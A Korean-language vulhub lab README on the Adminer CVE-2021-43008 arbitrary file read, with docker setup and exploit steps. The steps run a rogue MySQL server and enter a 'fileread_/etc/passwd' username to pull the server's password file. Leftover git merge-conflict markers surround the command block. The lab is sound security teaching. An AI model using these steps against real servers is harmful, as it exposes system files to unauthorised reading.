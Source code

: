 # [Adminer 원격 파일 읽기 (CVE-2021-43008)](https://github.com/vulhub/vulhub/tree/master/adminer/CVE-2021-43008#adminer-remote-arbitrary-file-read-cve-2021-43008)


Adminer는 PHP에서 개발한 데이터 베이스의 콘텐츠를 관리하는 도구 입니다. 기본적으로 MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Elasticsearch, MongoDB을 지원합니다.

Adminer 버전 1.12.0 ~ 4.6.2(버전 4.6.3에서 수정되었음)의 부적절한 액세스 제어로 인해 공격자는 관리자에게 원격 MySQL 데이터베이스에 연결하도록 요청하여 원격 서버에서 임의 파일 읽기를 할 수 있다.

참고자료:

- [https://github.com/p0dalirius/CVE-2021-43008-AdminerRead](https://github.com/p0dalirius/CVE-2021-43008-AdminerRead)
- [http://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability](http://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)

## [취약한 환경](https://github.com/vulhub/vulhub/tree/master/adminer/CVE-2021-43008#vulnerable-environment)

Adminer 4.6.2로 PHP 서버를 시작하려면 다음 명령을 실행하세요. :

![](1.png)

```
docker compose up -d
```

서버가 시작되면 관리자의 로그인 페이지를 볼 수 있습니다. `http://your-ip:8080`.

## [익스플로잇](https://github.com/vulhub/vulhub/tree/master/adminer/CVE-2021-43008#exploit)

[mysql-fake-server](https://github.com/4ra1n/mysql-fake-server)를 통해 불량 MySQL 서버를 시작하고, 
`fileread_/etc/passwd`를 사용자 이름 입력박스에 입력한다.

<<<<<<< HEAD
```
git clone https://github.com/4ra1n/mysql-fake-server.git
cd mysql-fake-server/
docker build -t fake-mysql-cli .
docker run -p 3306:3306 fake-mysql-cli
```
=======
img
>>>>>>> 24a359c2808b0dbe49953ad8c036186e3802cd8e

로그인 버튼을 누르면 mysql-fake-server에 Adminer의 `/etc/passwd` 파일이 저장된다. 

도커에 올린 mysql-fake-server에 bash로 들어가서 `/fake-server-files/pc-time/passwd`의 내용을 확인하면 Adminer의 서버의 `/etc/passwd`의 파일 내용이 들어있는 것을 볼 수 있다.

![](2.png)

![](3.png)
